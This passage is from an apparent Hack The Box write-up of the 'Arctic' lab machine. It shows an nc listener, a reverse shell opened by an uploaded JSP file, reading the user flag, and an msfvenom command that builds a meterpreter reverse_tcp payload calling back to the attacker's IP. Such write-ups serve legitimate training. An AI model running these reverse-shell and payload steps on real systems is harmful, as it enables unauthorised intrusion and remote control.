 Using the null byte allowed the upload of the EU.jsp file as well as the WVSKVYWB.txt file.

## Initial Shell

On a new terminal start a nc listener:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4444
listening on [any] 4444 ...
```

Now go back to web page and load the .jsp file:

![arctic-browser-jsp](/assets/images/2020-08-02-22-05-02.png)

Page will hang for 30 seconds as before, but then will open a reverse shell to my nc listener:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 49342
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

## User Flag

Let's see who we have connected as:

```text
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We are user tolis, let's grag the flag:

```text
C:\ColdFusion8\runtime\bin>more c:\users\tolis\Desktop\user.txt
more c:\users\tolis\Desktop\user.txt
<<HIDDEN>>
```

## Privilege Escalation

We are currently connected via a meterpreter shell as the user tolis. The next step is to upload a fully fledged reverse shell so we can get privilege escalation. Create a payload with msfvenom:

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.31 LPORT=444 -f exe > met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```
